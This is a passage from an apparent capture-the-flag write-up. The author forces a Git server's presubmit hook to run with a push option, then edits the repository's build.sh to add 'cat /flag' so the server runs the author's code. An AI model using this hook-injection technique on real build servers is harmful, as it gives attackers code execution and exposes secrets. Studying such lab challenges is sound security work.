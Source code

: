 These are also the two versions of hooks - client side and server side. It seems that the one I saw is a server side hook that fires just before pushing new code (even though the final result is it being denied).

While during the push the hook was skipped, the message hints that it's possible to enable it forcibly by sending a push option. It's a simple flag that gets a string and simply passes it to the Git server which in turn forwards it to the differnet hooks. 

Let's try:

```sh
tal@tal:~/hackinggoogle/vrp_repo$ git push --set-upstream origin my-feature --push-option=presubmit
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 306 bytes | 306.00 KiB/s, done.
Total 3 (delta 2), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at 394a730 Test new feature
remote: Building version v0.1.1
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] my-feature -> my-feature (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

Alright! It seems the presubmit check code has ran. Any prints happening during the hook are reflected back to me. One specifically interesting one is an error - `remote: ./build.sh: line 5: go: command not found`.

So, the server seem to run `build.sh` on the presubmit hook! The file exists in the Git repo:

```sh
#!/usr/bin/env bash

source configure_flags.sh &>/dev/null
echo "Building version ${VERSION}"
go build -ldflags="${LDFLAGS[*]}"
```

So what if I simply change it and try to push a new commit that includes changes to this file? Would that run my code?

I added a `cat /flag` command at the beginning of `build.sh` and tried to push again:

```sh
tal@tal:~/hackinggoogle/vrp_repo$ vim build.sh # Added a simple echo then cat /flag
tal@tal:~/hackinggoogle/vrp_repo$ git add build.sh
tal@tal:~/hackinggoogle/vrp_repo$ git commit -m "Changes build.sh"
[my-feature d0fccb1] Changes build.sh
 1 file changed, 2 insertions(+)
tal@tal:~/hackinggoogle/vrp_repo$ git push --set-upstream origin my-feature --push-option=presubmit
Enumerating objects: 9, done.
Counting objects: 100% (9/9), done.
Delta compression using up to 2 threads
Compressing objects: 100% (6/6), done.
Writing objects: 100% (6/6), 779 bytes | 779.00 KiB/s, done.
Total 6 (delta 2), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at d0fccb1 Changes build.sh
remote: Building version v0.1.1
```